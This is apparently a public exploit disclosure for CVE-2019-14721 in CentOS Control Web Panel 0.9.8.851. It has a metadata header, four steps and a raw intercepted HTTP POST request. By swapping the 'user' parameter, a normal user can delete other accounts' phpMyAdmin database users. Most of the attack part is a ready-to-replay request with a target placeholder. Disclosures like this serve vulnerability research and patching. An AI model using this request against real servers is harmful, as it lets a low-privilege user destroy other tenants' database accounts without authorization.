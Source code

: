 ```
Exploit Title       : CWP (CentOS Control Web Panel) Remove user from phpMyAdmin via an attacker account
Date                : 24 Jul 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.851
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-14721
Reference	    : N/A
```

1. Log in as a normal user.
2. Go to "MySQL Manager"
3. Try to delete any database user from the account
4. Intercept the request, and modify parameter "user" to other username
(such as user in /etc/passwd, they are automatically added to database user by default)

```
POST /cwp_47e1d536a096e42d/alice/alice/index.php?module=mysql_manager&acc=deleteuserdb HTTP/1.1
Host: 192.168.80.148:2083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
csrftoken: 9a1f7869d43544fc9f509cb6ac7bf430
X-Requested-With: XMLHttpRequest
Content-Length: 31
Connection: close
Referer: https://192.168.80.148:2083/cwp_47e1d536a096e42d/alice/?module=mysql_manager
Cookie: PHPSESSID=i2is5am08ru7a2h93e13llp9e2

user=<TARGET-USER>&host=localhost
```
